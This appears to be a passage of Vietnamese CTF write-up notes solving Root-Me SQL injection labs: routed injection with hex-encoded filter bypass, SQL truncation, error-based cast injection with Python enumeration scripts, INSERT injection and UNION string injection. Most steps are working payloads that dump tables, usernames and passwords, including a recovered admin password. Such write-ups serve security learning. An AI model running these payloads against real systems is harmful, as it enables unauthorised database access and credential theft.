⇒ Đây có thể là một bài error-base sql injection, web đưa ra thông báo lỗi và để lộ ra thông tin nhạy cảm

- kiểm tra số cột bằng `order by 3--` thì không lỗi → có 3
- kiểm tra xem cột nào có thể hiện thị ra web `union select 1,2,3--`


→ cột 2 và cột 3 có thể hiển thị 

- tìm tên bảng trong csdl `union select 1, name, 3 from sqlite_master--`


→ có bảng users 

- tìm tên các cột trong bảng users `union select 1, name, sql, 3 from sqlite_master where name='users'--`

hoặc `UNION SELECT 1, name, 3 FROM pragma_table_info('users')--`


- Trong SQLite, cột `sql` của bảng `sqlite_master` chứa **câu lệnh CREATE TABLE** gốc

→ ta có bảng users với các cột như kia

- payload `union select 1, username, password from users--`


ta tìm được password của tài khoản admin

# **17. Rootme    SQL Injection - Routed**

- “Routed SQLi” nghĩa là: truy vấn bạn tiêm **không hiển thị trực tiếp**, mà **kết quả của nó được đưa làm đầu vào cho một truy vấn SQL khác**, và **truy vấn thứ hai** mới là cái trả kết quả ra giao diện. Vì vậy ta sẽ “tiêm” một **chuỗi** để buộc truy vấn thứ hai chạy theo ý mình. Tức là có 2 truy vấn nối tiếp nhau
    - **Truy vấn 1**: lấy input từ người dùng → kết quả của nó được dùng để tạo **truy vấn 2**.
    - **Truy vấn 2**: mới là cái thật sự trả dữ liệu ra màn hình.
    
    ví dụ: 
    
    ```sql
    -- Truy vấn 1: tìm kiếm trong bảng 'categories'
    SELECT route FROM categories WHERE name = '<input user>';
    ```
    
    Kết quả của truy vấn 1 là một giá trị `route` (ví dụ: “users”, “products”, ….)
    
    Ứng dụng lấy giá trị đó để tạo truy vấn tiếp theo:
    
    ```sql
    -- Truy vấn 2: dùng kết quả từ trên
    SELECT * FROM <route>;
    ```
    
    Nếu như truy vấn 1 trả về nhiều dòng thì  truy vấn 2 sẽ truy vấn từng dòng một hoặc chỉ truy vấn dòng đầu tiên 
    
- Thử các payload vào ô search trong chức năng search như `"` `'` `\` thì thấy `"` hiện ra thông báo attack detected


→ đây là điểm có thể tiêm sql vì server đã lọc các từ khóa SQLi 

- thử `'` thì hiện lỗi csdl của server này là Mysql


- thử các payload như `or` `and` `order by` thì bị chặn hết, nhưng `union select` thì không bị chặn
- ta sẽ dùng `union select 'Chuỗi'` để nó chèn chuỗi này vào và thực thi truy vấn 2
- `union select 'order by 3--` để tìm số cột nhưng vì bị chặn `order by` nên ta phải đóng gói chuỗi kia thành dạng hex để bypass filter
- ta phải encode chuỗi thành literal hex bằng cách thêm `0x` ở đầu chuỗi hex
- `'union select 0x27206f726465722062792033202d2d202d -- -`


→ không có cột 3, thử cột 2 bằng `'union select 0x27206f726465722062792032202d2d202d -- -`


⇒ có cột 2, truy vấn này có 2 cột

- thử payload này `'union select 0x27756e696f6e2073656c656374202761272c202761272d2d202d-- -` thì thấy cả 2 cột id và email đều trả về string, ta có thể khai thác 1 trong 2 cột


- `'union select 'union select 1,table_name from information_schema.tables where table_schema=database()` (chưa mã hóa) dùng lệnh này trong truy vào truy vấn 1 đề trả về các bảng có trong database hiện tại trên server-cái mà web đang dùng( nếu không có `where table_schema=database()` nó sẽ trả về toàn bộ các bảng có trong mọi database trên server)


→ có bảng tên users 

- `'union select ' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' -- - -- -` để lấy ra các cột trong bảng users


- lệnh concat để nối các giá trị trong một dòng, lênh group_concat để nối các giá trị trong nhiều dòng
- `'union select 'union select 1,concat(login, ':' ,password) from users-- - -- -`


# 18. Rootme SQL-truncation

- đây là bài lab sử dụng kỹ thuật sql truncation, vì tên bài đã gợi í. Đọc nội dung kỹ thuật đó tại [**đây**](https://cookiearena.org/hoc-pentester/ky-thuat-sql-truncation-attack/)


trong source code bài lab cũng gợi í truy vấn sql tạo bảng trên server và nó giới hạn 12 ký tự login

- ta sẽ nhập `admin            a`

server sẽ tự xóa chữ a ở cuối và username thực sự vẫn có thêm 7 dấu cách

- và SQL so sánh `admin` với `admin`        có nhiều dấu cách là giống nhau nên ta có thể đăng nhập vào admin bằng password mà ta tạo


# **19. Rootme   SQL injection - Error**

- thêm dấu `'` vào url trong chức năng contens thì thấy hiện ra lỗi


có thể là error messages 

- sử dụng lệnh cast để ép kiểu dữ liệu trong mysql
- `, cast((select version()) as int)--` để xác định loại csld
    
    
    
    → postgreSQL
    
- `, cast((select table_name from information_schema.tables) as int)--`

payload này để lấy ra tên bảng 


- có nhiều dòng được trả về thì ta sẽ thêm limit 1 để lấy dòng đầu tiên thôi


tìm thấy bảng `m3mbr35t4bl3`

- có thể dùng code sau để in ra toàn bộ các bảng nếu như không phải bảng đầu kia
    
    ```python
    import requests
    import re # regex
    
    url = 'http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC'
    
    for i in range(0,20):
        payload = f", cast((select table_name from information_schema.tables limit 1 offset {i}) as int)--"
        params = {'action': 'contents', 'order': payload}
        response = requests.get(url, params=params)
    
        m = re.search(r'invalid input syntax for integer:\s*"([^"]+)"', response.text)
    ```
    
- `r'...'` : **raw string** trong Python → các backslash `\` được gửi nguyên vẹn cho engine regex (nếu không, `\s` có thể bị Python hiểu khác).
- `invalid input syntax for integer:` : khớp đúng cụm chữ này trong thông báo lỗi PostgreSQL.
- `\s*` : khớp **0 hoặc nhiều** ký tự khoảng trắng (space, tab, xuống dòng…).
- `"` : khớp dấu ngoặc kép mở.
- `([^"]+)` : **nhóm bắt (capturing group) số 1**
    - `[...]` là **character class**.
    - `^"` bên trong dấu `[]` là **phủ định** dấu `"` → “bất kỳ ký tự nào **không** phải dấu ngoặc kép”.
    - `+` : **1 hoặc nhiều** ký tự.
        
        ⇒ Nhóm này sẽ **bắt toàn bộ chuỗi** nằm giữa hai dấu ngoặc kép.
        
- `"` : khớp dấu ngoặc kép đóng.
    
    
    
- tìm các cột trong bảng đầu `m3mbr35t4bl3`

```python
import requests
import re # regex

url = 'http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC'

for i in range(0,20):
    payload = f", cast((select column_name from information_schema.columns limit 1 offset {i}) as int)--"
    params = {'action': 'contents', 'order': payload}
    response = requests.get(url, params=params)

    m = re.search(r'invalid input syntax for integer:\s*"([^"]+)"', response.text)
    print(m.group(1) if m else "No match found")
```


- khai thác cột `us3rn4m3_c0l` và `p455w0rd_c0l`


→ tìm được username của admin là `admin`


→ tìm được pasword của admin là `1a2BdKT5DIx3qxQN3UaC`

# 20. Root-me   **SQL injection - Insert**

- bài có trang đăng ký và đăng nhập, sau khi đăng nhập thì hiển thị tên và email đã đăng ký


- câu lệnh SQL để chèn thông tin đăng nhập của server bài lab này có thể là
    
    `insert into table_name('username', 'password', 'email');` 
    
- ta có thể phá chuỗi `' '` và chèn câu lệnh sql vào như `select version()` để in ra version, nếu nhập nguyên lệnh `select version()` vào ô đăng ký thì nó in ra chỉ là chuỗi `select version()` thôi vì truy vấn ở trong `' '`
- Nhưng hãy thử ô nào có thể chèn sqli, sau khi thử `'` và các ô đăng ký thì ô username và password đều bị chặn


còn ô email thì không bị, vậy nơi inject của bài này là ô email

- payload vào ô email là `a'), ('tpp2', 'a', (select version()));`

truy vấn thực sự sẽ trở thành 

`insert into table_name('ttp1', 'a', 'a'), ('tpp2', 'a', (select version()));`


nhưng request failed, có thể bị lỗi cú pháp 

- thử thay dấu ; bằng dấu # ở cuối


- Đăng nhập bằng tài khoản tpp2


8.0.36 là phiên bản của MySQL server 

→ csdl là MySQL

- email=`a'), ('tpp4', 'a', (select group_concat(table_name) from information_schema.tables))#` để tìm tất cả các bảng


có bảng flag

- email=`a'), ('tpp444', 'a', (select group_concat(column_name) from information_schema.columns where table_name='flag'))#` để tìm các cột trong bảng flag


→ có cột flag trong bảng flag

- email=`a'), ('tpp544', 'a', (select flag from flag))#`


# 21. Rootme **SQL injection - String**

- nhập `a'` vào chức năng search thì thấy hiện lỗi
    
    
    

→ csdl là SQLite

- `a' order by 1--` để tìm số cột
- đến `a' order by 3--` thì thấy hiện lỗi


→ có 2 cột 

- Nhập `a' union select 'a', 'b'--` để xem cột nào có thể hiện string


→ cả 2 cột đều có thể hiện 

- Vì là SQLite nên ta sẽ sử dụng payload sau để tìm tên

`*a' union select null, name from sqlite_master--*`


- tìm cột trong bảng users `a'union select null, sql from sqlite_master where name='users'--`


- `a' union select username, password from users--`

